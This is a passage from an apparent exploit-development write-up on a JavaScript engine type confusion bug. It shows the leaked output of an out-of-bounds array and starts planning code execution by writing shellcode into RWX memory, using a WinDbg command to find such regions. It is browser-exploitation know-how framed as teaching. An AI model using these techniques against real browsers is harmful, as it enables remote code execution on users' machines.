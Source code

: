   which will output data like this.
  
```
  [+] Triggering type confusion bug

oob_Array[0] : 0x3fb999999999999a  <-- 0.1
oob_Array[1] : 0x3fc999999999999a  <-- 0.2
oob_Array[2] : 0x3fd3333333333333  <-- 0.3
oob_Array[3] : 0x3fd999999999999a  <-- 0.4
oob_Array[4] : 0x3fe0000000000000  <-- 0.5
oob_Array[5] : 0x080406e908241891
oob_Array[6] : 0x8d6f3b68080897cd
oob_Array[7] : 0x080406e9482c0a48
oob_Array[8] : 0x0804021d080406e9
...
...
...
oob_Array[93] : 0x000831c108211b11
oob_Array[94] : 0x082417f108040385
oob_Array[95] : 0x08089b6d080406e9
oob_Array[96] : 0x080404b100000010
oob_Array[97] : 0x0000013400000008
oob_Array[98] : 0x0000013200000132
oob_Array[99] : 0x08241e0900000132
```
  
Now that we can get an OOB Array and that we can practically write compressed values to heap after the location where the field `elements` of `oob_Array` points to, we can now proceed on to figure out what to do next.

---
### **Exploitation**

Getting stuck, we can now try to start with the end in mind which is to pop the calculator and we will try to answer questions that might arise.

Our goal is to gain code execution and for this purpose, we can try to pop a calculator. To do that, we want to be able to write shellcode into RWX memory. This means that we need a way to write data into memory. This means that that we have a few things we need to check.

1. Are there any current RWX memory region (memory marked as `PAGE_EXECUTE_READWRITE`) that we can eventually write shellcode to?
2. What if there aren't?
3. How are we going to write into memory assuming that the RWX memory region is somewhere before the `oob_Array`.
4. How are we supposed to decompress the address pointers when all we have are the lower 32 bits of the address?

#### **1.  Are there any current RWX memory region?**

We can easily check that with `!address` in WinDBG.

```
!address -f:PAGE_EXECUTE_READWRITE
```
